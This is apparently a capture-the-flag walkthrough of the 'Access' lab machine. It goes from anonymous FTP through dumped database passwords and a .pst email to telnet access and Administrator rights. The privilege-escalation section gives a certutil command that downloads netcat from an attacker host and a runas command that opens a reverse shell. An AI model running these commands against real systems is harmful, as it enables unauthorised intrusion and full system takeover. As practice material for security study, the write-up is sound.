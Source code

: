 # Access

### Reconnaissance

- port 21/tcp FTP Microsoft ftpd
- port 23/tcp Telnet
- port 80/tcp HTTP Microsoft IIS httpd 7.5

Anonymous FTP access is enabled and the file share contains a .mdb backup and a password protected .zip file

Switch to binary mode in FTP to download the files

Using `mdbtools` we can dump the table names 

`mdb-tables backup.mdb`

One of the tables is called auth_user, we can dump the table contents using mdb-export

`mdb-export backup.mdb auth_user > users.txt`

The table contains usernames and passwords, none work for telnet but one of the passwords works for the zip 
file

The zip file contains a .pst file, a Personal Storage Table used to store calendar events, contacts and email 
messages

Convert the pst file with `readpst` and view it with `cat`

`readpst 'Access Control.pst'`

### Exploitation

The .pst file contains an email with credentials for a security account which can be used to log in via telnet

`telnet -l security 10.10.10.98`

### Privilege Escalation

Running `cmdkey /list` shows there are Administrator credentials available

Upload a static netcat binary and use `runas` to execute a reverse shell as the Administrator and get the 
root flag

`certutil -urlcache -f http://10.10.10.10/nc.exe nc.exe`

`runas /noprofile /savecred /user:ACCESS\Administrator "c:\users\security\documents\nc.exe 10.10.10.10 4242 -e cmd.exe"`
